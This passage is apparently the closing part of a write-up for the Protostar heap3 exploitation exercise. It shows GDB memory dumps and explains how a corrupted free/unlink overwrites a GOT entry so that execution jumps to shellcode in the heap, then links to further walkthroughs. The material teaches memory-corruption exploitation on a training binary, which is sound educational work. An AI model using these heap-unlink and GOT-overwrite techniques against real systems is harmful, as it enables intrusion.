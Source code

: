 0x804c050:	0xfffffffc	0xfffffffc	0xfffffff9	0x0804b194
0x804c060:	0x0804b194	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x0804c040

Breakpoint 3, main (argc=4, argv=0xbffff844) at heap3/heap3.c:25
25	in heap3/heap3.c
{% endhighlight %}
We see after free, `GOT` is modified to address of our shell placed in heap. Also due to `BK->fd = FD` part of unlink, heap values after shellcode is overwritten. But luckily our shellcode is only `8byte` long and is not modified by it.
And thus we successfully redirect execution to winner.
{% highlight shell %}
(gdb) c
Continuing.
that wasn't too bad now, was it? @ 1551106050

Program exited with code 056.
0x804c000:	Error while running hook_stop:
Cannot access memory at address 0x804c000
{% endhighlight %}


[heap3-link]:https://exploit.education/protostar/heap-three/
[liveoverflow-heap3-link]:http://liveoverflow.com/binary_hacking/protostar/heap3.html
[medium-heap3-link]:https://medium.com/@airman604/protostar-heap-3-walkthrough-56d9334bcd13
[phrack-once-upon-a-free-link]:http://phrack.org/issues/57/9.html